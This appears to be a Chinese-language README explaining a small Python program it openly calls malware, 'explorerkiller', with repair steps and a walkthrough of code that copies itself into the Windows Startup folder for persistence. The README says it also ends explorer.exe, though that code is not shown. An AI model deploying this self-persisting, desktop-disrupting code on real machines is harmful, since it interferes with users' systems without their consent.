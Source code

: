# 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  





